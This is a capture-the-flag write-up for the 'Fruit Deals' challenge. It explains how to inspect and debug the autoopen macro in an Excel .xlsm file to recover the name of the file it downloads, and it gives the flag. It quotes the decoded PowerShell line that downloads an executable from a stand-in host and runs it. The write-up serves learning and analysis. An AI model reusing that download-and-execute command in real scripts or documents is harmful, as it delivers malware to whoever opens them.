







<!-- 
<h3 align="center">CS student and a passionate web developer</h3> -->

<!--   my-ticker -->    
<!-- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp; -->

  

## Fruit Deals  	

### Infos About challenge : 

### Description : 

##### I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

##### The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though

## solution:

### step 1 : Open Deals.xlsm 

##### You notice that That have error everywhere 

##### After doing some Research about caracterstique of .xlsm file I found macros 

### step 2 : Open The macros Code and Reverse it 

##### you can Have the list of macros by Click on Developer button in uppbar if you don't have it enable devloper mode in the seetings 

#### After that click on Macros

#### When you try to run autoopen macros , It Open a youtube video 

### So we should click On Edit Button not Run 

### You can notice that the macros is open an Url and download an program before opening The Youtube Url 

### Step 3 : Find the name of file that is downloaded 

#### To do this we should debug the macro and make Break point in the line after of this line  
#### f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + ...............

### Now Just open the locals windows in View list 

### So you can notice that the file name of the programme downloaded is in the "CNTA" 

#### f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""

### Congratulation the name of the program is : banANA-Hakrz09182afd4.exe 

### Flag:

### utflag{banANA-Hakrz09182afd4.exe}
